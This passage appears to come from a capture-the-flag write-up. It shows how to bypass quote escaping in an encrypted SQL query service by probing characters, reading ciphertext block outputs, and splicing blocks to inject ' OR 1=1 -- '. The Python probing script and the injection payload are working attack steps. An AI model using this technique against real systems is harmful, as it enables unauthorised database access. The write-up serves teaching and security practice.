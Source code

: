 ```py
for i in (string.printable):
    decoded_query = send_post_request(i)
    print(f"{i}: {decoded_query}")
```

We can see something unusual:

```
0: G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPIZVmxvtq+NhSBxG1ShKyNOvfoQVOxoUVz5bypVRFkZR5BPSyq/LC12hqpypTFRyXA=
1: G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPLP9baIk2Ue8NLFHkisvCsovfoQVOxoUVz5bypVRFkZR5BPSyq/LC12hqpypTFRyXA=
2: G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPJKsqxhd1u8TdA/TD8pKcZ3vfoQVOxoUVz5bypVRFkZR5BPSyq/LC12hqpypTFRyXA=
3: G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPLwHgMX39QP8kCLRhrAhHsBvfoQVOxoUVz5bypVRFkZR5BPSyq/LC12hqpypTFRyXA=
...
": G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPIFJJdk81Qbm5onM4n5XT7DSHmaB7HSm1mCAVyTVcLgDq3tm9uspqc7cbNaAQ0sTFc=
...
': G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPK2m1Dlc2qtE8XWPmhO77spSHmaB7HSm1mCAVyTVcLgDq3tm9uspqc7cbNaAQ0sTFc=
...
\: G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPI6vxUwqCFATEVQds2XgPcMSHmaB7HSm1mCAVyTVcLgDq3tm9uspqc7cbNaAQ0sTFc=
...
```

The characters `"`, `\` and `'` have different ending, that's because they probably got escaped *(Our assumption that the last part has something with string length was correct)*! As we also know, that it takes 10 characters to change the next block *(pink square)* we can start to build our payload with following parts:

1. Start blocks *(red square)*
2. Block of 10 space characters decoded *(To get rid of escaping character)*
3. Payload

Basically what will be done:

`aaaaaaaaa'` will be transformed to `aaaaaaaaa\'`, so to inject `' OR 1=1 -- ` we need to replace `aaaaaaaaa\` block with block of 10 spaces.

Let's adjust our script to make it:

```py
decoded_query = send_post_request("aaaaaaaaa' OR 1=1 -- ")
print(decoded_query)
```

Output:

```
G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPIR27gK4CQl3Jcmv/0YAxYOWY4bHaEWFEfgtXy4iixC3kHAmMS6zcXtk1dWTlEF3X5k0NzIaCU2kq38vTeW0b+K
```

The start blocks will be `G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjP`.
Block of 10 space characters will be `ItlMM3qTizkRB5P2zYxJsb`. *(Not from this output)*
Payload = `output` - `start blocks` - `bad value`
